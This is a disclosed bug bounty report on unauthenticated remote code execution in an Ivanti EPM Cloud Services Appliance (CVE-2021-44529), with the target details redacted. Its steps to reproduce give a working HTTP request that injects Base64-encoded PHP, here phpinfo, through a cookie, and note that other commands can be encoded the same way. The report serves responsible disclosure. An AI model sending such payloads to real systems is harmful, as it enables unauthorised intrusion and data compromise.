 # [███████] Remote Code Execution at ██████ [CVE-2021-44529] [HtUS]

## Report Details
- **Report ID**: 1624172
- **URL**: https://hackerone.com/reports/1624172
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-04T14:03:27.342Z
- **Disclosed**: 2023-01-06T18:57:47.352Z

## Reporter
- **Username**: norwegianwood
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**IP Address used to find vulnerability:**

 `██████`

**Vulnerable Website URL or Application:** 

`https://████`

`pomcldsvr2.████`



**Proof of ownership:**

███



**Summary:**

The server at `https://███` is running a vulnerable version of CSA.

A code injection vulnerability in the Ivanti EPM Cloud Services Appliance (CSA) allows an unauthenticated user to execute arbitrary code with limited permissions (nobody).

**Steps to Reproduce:**

Use Burp Repeater to send the following GET requests:

*Please note that for the system commands to run, they need to be Base64 encoded. For example, for phpinfo, pass cGhwaW5mbygpOw==*

- For phpinfo()

  ````
  GET /client/index.php HTTP/1.1
  Host: ███████
  User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
  Connection: close
  Cookie: ab=ab; c=cGhwaW5mbygpOw==; d=; e=;
  Accept-Encoding: gzip, deflate
  
  
  ````

**Screenshots:**

█████████

█████████

██████

█████

██████

**References:**

- https://nvd.nist.gov/vuln/detail/CVE-2021-44529
- https://forums.ivanti.com/s/article/SA-2021-12-02

## Impact

**Impact:**
Remote attackers can execute arbitrary commands on the server, and compromise company and user data.

**CVSS Score: Critical**

**Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Attachments
No attachments
